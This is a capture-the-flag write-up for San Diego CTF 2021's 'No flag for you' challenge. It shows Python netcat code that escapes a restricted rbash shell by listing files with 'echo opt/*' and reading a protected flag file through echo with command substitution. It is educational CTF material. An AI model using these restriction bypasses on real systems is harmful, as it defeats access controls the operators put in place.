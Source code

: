 # __San Diego CTF 2021__ 
## _No flag for you_

## Information

**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
MISC | 453 | soska_nerealka

**Description:** 

> Welcome to the most restrictive shell ever, with only 2 semi-functional non-shell commands.
>
> Connect via: nc noflag.sdc.tf 1337

## Solution

Lets connect to the sever with netcat
```
from nclib import netcat

conn = netcat.Netcat(('noflag.sdc.tf', 1337))
print(conn.recvline())
```
It tells us that "There is no flag here." Is it true? Lets find out!

We cant just do
```
conn.sendline(b'ls /opt')
```
because connection returns
```
rbash$ ls: cannot open directory '/opt': Permission denied
```
So lets just google some alternatives for ls. And here it is!

```
conn.sendline(b'echo opt/*')
```
This echo works pretty like ls and permission wont stop us!

It returned to us: opt/flag-b01d7291b94feefa35e6.txt

So now we need to see what it contains. Can we do it again with echo? Lets google again...

Here it is:
```
conn.sendline(b'echo `<opt/flag-b01d7291b94feefa35e6.txt`')
```
We succesfully echoed our flag


> sdctf{1t'5_7h3_sh3ll_1n_4_shEll}
